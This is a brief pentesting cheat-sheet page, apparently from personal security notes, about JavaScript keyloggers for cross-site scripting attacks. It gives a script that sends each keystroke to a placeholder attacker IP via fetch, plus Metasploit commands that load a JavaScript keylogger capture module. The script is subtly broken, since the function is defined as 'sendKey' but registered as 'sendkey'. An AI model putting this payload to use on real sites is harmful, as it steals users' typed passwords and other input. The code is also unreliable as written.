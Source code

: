 # Keyloggers

Search Tag(s): #helpers #webapp-pentesting #cross-site-scripting

## 01 - Scripts

```js
function sendKey(event) {
	fetch("http[s]://<IP>/data?k=" + event.key);
}
document.addEventListener('keydown', sendkey);
```

## 02 - Metasploit

TODO: Fill this info

```
msf > use auxiliary/server/capture/http_javascript_keylogger

msf auxiliary(server/capture/http_javascript_keylogger) > options
```

---
## References

- [IMVK: Cross Site Scripting – Exploitation ](https://imvk.net/en/infosec/ethical-web-hacking/cross-site-scripting-exploitation)

- [Geeky much: Cross-site Scripting](https://medium.com/secure-you/cross-site-scripting-b64f440ae060)

- [Rapid7: Metasploit JavaScript Keylogger](https://www.rapid7.com/blog/post/2012/02/21/metasploit-javascript-keylogger/)